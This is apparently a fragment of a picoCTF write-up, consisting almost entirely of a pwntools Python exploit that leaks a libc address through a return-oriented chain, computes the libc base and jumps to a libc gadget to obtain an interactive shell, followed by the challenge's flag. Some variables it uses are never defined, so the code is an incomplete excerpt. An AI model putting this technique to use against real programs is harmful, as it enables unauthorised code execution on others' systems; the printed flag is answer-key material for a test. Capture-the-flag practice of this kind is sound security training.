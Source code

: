 ```py
puts_plt = 0x00400540
puts_got = 0x00601018

libc_binsh = 0x001b40fa
libc_puts = 0x00080a30
libc_system = 0x04f4e0

payload = flat({
    0x88: [
        p64(poprdi),
        p64(puts_got),
        p64(puts_plt),
        p64(vuln),
        ]
    })

io.recvline()
io.sendline(payload)

io.recvline()
puts = u64(io.recvline().strip().ljust(8, b'\x00'))
print(hex(puts))

libc = puts - libc_puts
system = libc + libc_system
binsh = libc + libc_binsh

print(hex(libc))

payload2 = flat({
    0x88: [
        p64(0x10a45c+libc)
        ]
    })

io.sendline(payload2)

io.recvline()
io.interactive()

```

## Flag

`picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}`

